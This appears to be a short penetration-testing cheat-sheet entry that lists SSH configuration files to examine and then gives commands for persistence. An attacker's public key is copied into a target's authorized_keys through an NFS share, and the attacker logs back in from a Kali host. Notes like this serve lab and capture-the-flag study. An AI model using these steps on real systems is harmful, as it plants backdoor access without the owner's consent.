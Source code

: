 # Examine Configuration Files
- ssh_config
- sshd_config
- autorized_keys
- ssh_known_hosts
- .shosts

# Establish Persistence
If ssh open, you can create a .ssh folder in your user folder and drop a public key there for easy access later on.
```
#target# mkdir [attacker file system NFS location from #2]/.ssh
#attacker# cat ~/.ssh/id_rsa.pub | clip
#target# cd .ssh; vim authorized_keys
#target# copy public key into this file and save it.
#kali#ssh -i ~/.ssh/id_rsa [user name]@[IP]
```
